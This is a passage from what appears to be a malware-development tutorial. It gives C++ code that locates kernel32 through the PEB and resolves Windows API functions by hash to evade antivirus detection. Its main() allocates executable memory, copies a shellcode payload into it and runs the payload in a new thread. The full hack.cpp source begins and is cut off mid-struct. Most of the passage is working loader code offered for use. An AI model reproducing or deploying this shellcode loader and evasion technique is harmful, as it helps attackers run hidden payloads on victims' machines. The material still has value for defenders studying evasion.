 ```cpp
static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)((LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
      printf("successfully found! %s - %d\n", pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}
```

And, respectively, the `main()` function logic is different:    

```cpp
int main() {
  HMODULE mod = getKernel32(56369259);
  fnGetModuleHandleA myGetModuleHandleA = (fnGetModuleHandleA)getAPIAddr(mod, 4038080516);
  fnGetProcAddress myGetProcAddress = (fnGetProcAddress)getAPIAddr(mod, 448915681);

  HMODULE hk32 = myGetModuleHandleA("kernel32.dll");
  fnVirtualAlloc myVirtualAlloc = (fnVirtualAlloc)myGetProcAddress(hk32, "VirtualAlloc");
  fnCreateThread myCreateThread = (fnCreateThread)myGetProcAddress(hk32, "CreateThread");
  fnWaitForSingleObject myWaitForSingleObject = (fnWaitForSingleObject)myGetProcAddress(hk32, "WaitForSingleObject");

  PVOID lb = myVirtualAlloc(0, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = myCreateThread(NULL, 0, (PTHREAD_START_ROUTINE)lb, NULL, 0, NULL);
  myWaitForSingleObject(th, INFINITE);
}
```

As you can see, I used [Win32 API call by hash trick](/tutorial/2022/03/22/simple-av-evasion-5.html).    

Then full source code (`hack.cpp`) is:    

```cpp
/*
 * hack.cpp - find kernel32 from PEB, assembly style. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2022/04/02/malware-injection-18.html
*/
#include <windows.h>
#include <stdio.h>

typedef struct _UNICODE_STRING {
  USHORT Length;
  USHORT MaximumLength;
  PWSTR Buffer;
} UNICODE_STRING;

struct LDR_MODULE {
  LIST_ENTRY e[3];
```